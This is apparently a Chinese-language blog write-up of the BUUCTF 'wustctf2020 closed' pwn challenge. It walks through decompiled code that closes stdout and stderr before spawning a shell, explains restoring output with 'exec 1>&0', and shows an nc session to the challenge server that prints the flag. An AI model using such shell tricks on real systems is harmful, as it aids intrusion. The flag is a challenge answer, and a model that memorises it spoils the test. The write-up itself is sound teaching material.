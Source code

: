 ```yaml
---
author: 
  name: Zephyr
title: wustctf2020 closed
date: 2022-4-16 07:25:04
permalink: /pages/2e1547494524d1b8
tags: 
  - buuctf
  - pwn
---
```


# wustctf2020 closed

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/wustctf2020_closed/wustctf2020_closed'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  vulnerable();
  return 0;
}
```

init函数如下:

```c
int init()
{
  alarm(0x20u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  return puts(
           "   __  ___    ______   ___    \n"
           "  /  |/  /__ /_  __/__<  /_ __\n"
           " / /|_/ / _ `// / / __/ /\\ \\ /\n"
           "/_/  /_/\\_,_//_/ /_/ /_//_\\_\\ \n");
}
```

vulnerable函数如下：

```c
__int64 vulnerable()
{
  puts("HaHaHa!\nWhat else can you do???");
  close(1);
  close(2);
  return shell(2LL);
}
```

shell函数如下：

```c
int shell()
{
  return system("/bin/sh");
}
```

## 思路分析

1. 目前信息：

   - `close(1)`关闭了标准输出
   - `close(2)`关闭了标准错误
   - 直接调用`system("/bin/sh")`获得了`shell`
   - Partial RELRO
   - No canary found
   - NX enabled
   - No PIE
3. 思路

   - 三条语句中`close(1)`、`close(2)`把标准输出和标准错误输出关闭，可以执行 exec 1>&0，也就是把标准输出重定向到标准输入，因为默认打开一个终端后，`0`，`1`，`2`都指向同一个位置也就是当前终端，这条语句相当于重启了标准输出，此时就可以执行命令并且看得到输出了

```shell
nc node4.buuoj.cn 25232
   __  ___    ______   ___
  /  |/  /__ /_  __/__<  /_ __
 / /|_/ / _ `// / / __/ /\ \ /
/_/  /_/\_,_//_/ /_/ /_//_\_\

HaHaHa!
What else can you do???
exec 1>&0
cat flag
flag{6bf11b28-f05c-4670-8962-b7d496165d3f}
```

